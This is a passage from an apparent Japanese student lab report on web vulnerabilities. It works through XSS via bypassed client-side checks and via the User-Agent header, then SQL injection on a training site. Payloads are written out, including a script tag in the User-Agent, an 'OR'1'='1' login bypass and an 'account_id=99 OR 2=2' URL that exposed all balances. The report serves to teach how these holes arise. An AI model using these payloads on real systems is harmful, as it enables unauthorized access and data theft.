    
\includegraphics[keepaspectratio,scale=0.32]{web12.png}
    \end{center}
    \caption{URL遷移先}
  \end{minipage}
\end{figure}

 \\
\subsection{不完全な対策}
クロスサイト・スクリプティングの脆弱性の不完全な対策として、ブラウザ上で入力チェックを行う対策がある。しかし
この対策は、ブラウザのアドレス欄などから不正なスクリプトを入力されることによって、回避されてしまう可能性がある。\\\\
今回は掲示板サイトの本文欄に脆弱性が存在するので、投稿を行う前にURLの本文欄に相当するパラメータである「content」
の値をスクリプトに書き換え、入力チェックを回避するために、作成したURLをアドレス欄から直接指定した。結果として、図13のように、掲示板の注意書きを任意のものに書き換えることができた。\\

\begin{figure}[H]
  \centering
  
\includegraphics[scale=0.36]{web13.png}
  \caption{実行結果}\label{fig:図13}
\end{figure}

 \\
\subsection{ヘッダ要素へのスクリプト}
\subsubsection{脆弱性の概要}
クロスサイト・スクリプティングの脆弱性の対策が、画面からの入力項目に対してのみで、ヘッダ要素まで及んでいない場合、ヘッダ要素を狙いクロスサイト・スクリプティングの脆弱性を悪用した攻撃を受けてしまう可能性がある。
アクセスログや投稿者のUser-Agentをブラウザで表示するような場合、環境変数は利用者によって設定可能であることに注意しなければならない。画面上の入力項目に対して対策を行っていても、環境変数に対して行っていなければ、それを悪用されることでクロスサイト・スクリプティングの脆弱性となる。\\

\subsubsection{脆弱性の発見}
下の図14のように、User-Agentを「'\textgreater "\textgreater \textless hr\textgreater」と設定し、ネットショッピングサイトにリクエストを送信したところ、アクセスログのブラウザ情報の項目に水平線が引かれたため、脆弱性が発見できた。\\

\begin{figure}[H]
  \centering
  \begin{minipage}[b]{0.45\linewidth}
  \begin{center}
    
\includegraphics[keepaspectratio,scale=0.35]{web14.png}
    \end{center}
    \caption{環境変数の設定}
  \end{minipage}
  \begin{minipage}[b]{0.45\linewidth}
  \begin{center}
    
\includegraphics[keepaspectratio,scale=0.3]{web15.png}
    \end{center}
    \caption{実行結果}
  \end{minipage}
\end{figure}

\subsubsection{脆弱性を利用した攻撃}
1.7.2章で発見した、ブラウザ情報の表示に存在する脆弱性を利用して、User-Agentに設定したスクリプトを実行させ、業務妨害を目的に、ブラウザの背景色を変更する攻撃を行う。
下の図16のように、User-Agentを「\textless script\textgreater document.bgColor='000000'\textless /script\textgreater」と設定し、ネットショッピングサイトにリクエストを送信したところ、図17のように、ブラウザの背景色を黒にすることができた。\\

\begin{figure}[H]
  \centering
  \begin{minipage}[b]{0.45\linewidth}
  \begin{center}
    
\includegraphics[keepaspectratio,scale=0.35]{web16.png}
    \end{center}
    \caption{環境変数の設定}
  \end{minipage}
  \begin{minipage}[b]{0.45\linewidth}
  \begin{center}
    
\includegraphics[keepaspectratio,scale=0.3]{web17.png}
    \end{center}
    \caption{実行結果}
  \end{minipage}
\end{figure}

 \\

\section{SQLインジェクション}
\subsection{脆弱性の概要および発見}
\subsubsection{SQLインジェクションとは}
SQLインジェクションとは、悪意のあるリクエストにより、ウェブアプリケーションが意図しないSQL文を実行してしまうことで、データベースを不正に操作されてしまう脆弱性である。
この脆弱性が悪用されることで、データベース内の情報が改ざんされたり、個人情報や機密情報が漏えいしたりする可能性がある。\\

\subsubsection{脆弱性の発見}
画面の入力パラメータに「'(シングルクォーテーション)」を入れてリクエストを送信すると、SQL文の構成時に入力された値をそのままSQL文に使用する箇所がある場合、データベースエラーが発生する。
このとき、その入力欄にSQLインジェクションの脆弱性が存在するといえる。\\\\
脆弱性が存在するログイン画面では、パスワードに「'」を入力すると、図18のように、データベースエラーが発生した。また、脆弱性への対策が行われているログイン画面では、パスワードに「'」を入力しても、データベースエラーが発生せず、図19のように、入力したパスワードが間違っている内容を伝えるメッセージが出力された。

\begin{figure}[H]
  \centering
  \begin{minipage}[b]{0.45\linewidth}
  \begin{center}
    
\includegraphics[keepaspectratio,scale=0.32]{sql1.png}
    \end{center}
    \caption{脆弱ログイン画面}
  \end{minipage}
  \begin{minipage}[b]{0.45\linewidth}
  \begin{center}
    
\includegraphics[keepaspectratio,scale=0.32]{sql2.png}
    \end{center}
    \caption{対策されているログイン画面}
  \end{minipage}
\end{figure}

 \\

\subsection{不正なログイン(文字列リテラル)}
ここでは文字列リテラルに対するSQLインジェクションの脆弱性が存在することによって、認証を回避され、不正ログインが実行されることを確認する。脆弱性の発見手法を用いたところ、ログイン画面のパスワード欄に脆弱性が存在することが確認できた。
そこで、常にtrueを返すような文字列「'OR'1'='1'–」をパスワードに入力したところ、本来のパスワードを用いずにログインすることに成功した。\\

\begin{figure}[H]
  \centering
  \begin{minipage}[b]{0.45\linewidth}
  \begin{center}
    
\includegraphics[keepaspectratio,scale=0.32]{sql4.png}
    \end{center}
    \caption{脆弱ログイン画面}
  \end{minipage}
  \begin{minipage}[b]{0.45\linewidth}
  \begin{center}
    
\includegraphics[keepaspectratio,scale=0.32]{sql5.png}
    \end{center}
    \caption{実行結果}
  \end{minipage}
\end{figure}

 

\subsection{情報漏えい(数値リテラル)}
ここでは、数値リテラルに対するSQLインジェクションの脆弱性が存在することによって、データベース上に蓄積された非公開情報を閲覧され、個人情報や機密情報が漏えいするなどの問題を引き起こす可能性があることを確認する。\\\\
このバンキングサイトには、口座残高照会ページの残高表示後のURLにあるaccount\_idに脆弱性が存在することが分かった。下の図22のような通常の残高表示の場合、URLは「\url{http://appgoat.cysec-lab.org/Users/is0550kr/Web/Scenario1222/VulSoft/bank.php?page=3&account_id=1000006}」となっており、account\_idには選択した口座番号が指定される。\\
account\_idが常にtrueとなるようなURL「\url{http://appgoat.cysec-lab.org/Users/is0550kr/Web/Scenario1222/VulSoft/bank.php?page=3&account_id=99 OR 2=2}」を作成し、アドレスから直接リクエストを送信した。
その結果、図23のように、全ての口座残高を表示することができ、SQLインジェクションによって情報漏えいが起こることを確認することができた。

\begin{figure}[H]
  \centering
  \begin{minipage}[b]{0.45\linewidth}
  \begin{center}
